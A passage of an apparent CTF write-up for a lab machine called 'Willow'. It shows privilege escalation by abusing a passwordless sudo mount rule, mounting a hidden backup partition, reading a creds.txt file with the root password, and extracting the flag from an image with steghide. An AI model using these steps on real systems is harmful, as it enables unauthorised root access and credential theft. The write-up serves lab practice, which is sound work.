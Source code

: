 ## Privilege Escalation

Running `sudo -l` reveals that we can mount partition
```
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```

User is able to run `mount` as super user for `/dev/*` folders. Navigating to `/dev` directory listings show that there is a particular partition named `hidden_backup`. To mount this, I did the following:

```
willow@willow-tree:/dev$ mkdir /home/willow/hiddenbak
willow@willow-tree:/dev$ sudo mount /dev/hidden_backup /home/willow/hiddenbak
```

Navigating to mounted partition shows a file `creds.txt` contents seem like `root` password. Switch user to root using `su - root` and key in the password and we are greeted with `root.txt`. **Yes! I got the flag!** Or do we?

```
root@willow-tree:~# cat root.txt
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
```

I'm half suspecting that the flag might be in the `user.jpg` file earlier. I went to `binwalk` it and `strings` it but found nothing interesting. Steganography is something I need to improve on. After googling any tools I could use, I went with `steghide` and had to install through `apt-get`

```
root@kali:~/gitlab_notes/thm/willow# steghide extract -sf user.jpg
Enter passphrase: 
wrote extracted data to "root.txt".
```

It was prompting a passphrase, I tried the passwords found in `creds.txt` earlier and found that `root` password allows me to extract (the real) `root.txt`. **Yes! I got the Real flag!** This is it! 

Lots of love and respect (and awe) for the CTF creator who is only 18 years old [MuirlandOracle](https://muirlandoracle.co.uk/), looking forward to doing more of his boot-to-roots.

